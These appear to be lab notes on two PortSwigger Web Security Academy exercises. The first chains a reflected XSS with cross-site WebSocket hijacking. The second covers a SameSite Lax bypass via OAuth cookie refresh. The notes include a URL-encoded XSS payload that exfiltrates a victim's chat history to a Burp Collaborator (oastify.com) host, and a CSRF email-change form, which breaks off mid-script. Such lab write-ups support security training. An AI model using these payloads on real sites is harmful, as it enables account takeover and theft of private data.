 - Looking at the proxy history, we see that images and script responses have an Access-Control-Allow-Origin header in the response from a sibling domain - cms-*.web-security.com
- The CMS page is a login page that has reflected XSS in the username field. AND it does pass the session token in the cookies. So, we could get the bot submit a request there and potentially steal their cookies. 
-- To do this, we can take the original CSWSH payload which was JS and URL encoded it, submit that as the username which will parse the JS and send it through to the victim as a script via the exploit server. 
```
<script>
document.location = "https://cms-0aaa0093037a1d9c818af733002c00df.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0d%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%61%61%30%30%39%33%30%33%37%61%31%64%39%63%38%31%38%61%66%37%33%33%30%30%32%63%30%30%64%66%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0d%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0d%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0d%0a%20%20%20%20%7d%3b%0d%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0d%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%6a%66%32%6b%37%33%71%63%68%6a%78%30%69%63%33%67%77%69%77%38%35%6a%6a%70%70%67%76%37%6a%36%37%76%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0d%0a%20%20%20%20%7d%3b%0d%0a%3c%2f%73%63%72%69%70%74%3e&password=anything";
</script>
```
- User Carlos starts a session and autologs-in to the portal which gets passedinto the session with the chat so we get that data to the Burp Collaborator server and can log in as him. 


# SameSite Lax bypass via cookie refresh
Change email

## Observations
- Oauth authentication
- cookies being set by the Oauth IDP are being set with lax or none. 
Example:
Request:
```
GET /oauth-callback?code=rVY_YRGHbVgk__3Uu5eLjWfrpozAMGAzADAmVsS1bLG HTTP/2
Host: 0a4d00580475b6ed803a12e600370062.web-security-academy.net
```
Response:
```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=QpOL9Vu2TsavB6tP0UUvC2AFLCOqA6oJ; Expires=Mon, 08 Sep 2025 16:01:02 UTC; Secure; HttpOnly
```
- Testing basic CSRF with BurpSuite's payload and I am redirected to refresh my authentication with Oauth. 
- Try it again right after that and it succeeds without reauthing. 
- Anytime you visit the /social-login page it with initiate the OAuth flow or refresh your session. This sets a new session token each time. 
-- Essentially, if we try to get CSRF on someone who hasn't just logged in then its going to push them off the page to complete the OAuth flow and break out CSRF. 
- Trying to initiate the social-login without direct interaction fails because it won't allow us to pop-up the window. We need the user to interact with the page. So, we could use an on-click event to make that interaction occur since the vicitm will need to click on the page at some point. 
```
<form method="POST" action="https://0a4d00580475b6ed803a12e600370062.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
```